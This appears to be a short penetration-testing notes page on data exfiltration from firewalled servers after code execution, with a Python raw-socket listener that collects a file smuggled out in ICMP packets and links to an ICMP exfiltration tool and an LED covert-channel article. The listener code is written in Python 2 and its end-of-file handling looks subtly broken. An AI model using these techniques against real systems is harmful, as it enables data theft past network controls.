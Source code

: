 # Data Exfiltration

When executing code or performing post-exploitation on a server, it's possible to run into a situation where we're unable to actually return results.  Classic examples of this could be locked down network servers where code-execution is possible but all firewall ports are locked down.  It becomes impossible to execute a reverse shell, but we can use the below techniques to exfiltrate data.

## ICMP

### File Exfiltration

```py
def listen():
    s = socket.socket(socket.AF_INET,socket.SOCK_RAW,socket.IPPROTO_ICMP)
    s.setsockopt(socket.SOL_IP, socket.IP_HDRINCL, 1)
    with open('icmpoutput.txt','wb') as catch:   
        while 1:
            data, addr = s.recvfrom(1508)
            print "Packet from %r: %r" % (addr,data)
            if '^BOF' in data:
                continue
            if '^EOF' in data:
                catch.write(data[-1472:-4])
            catch.write(data[-1472:])

listen()
```

https://github.com/api0cradle/Powershell-ICMP

## Error Codes

https://www.wired.com/2017/02/malware-sends-stolen-data-drone-just-pcs-blinking-led/



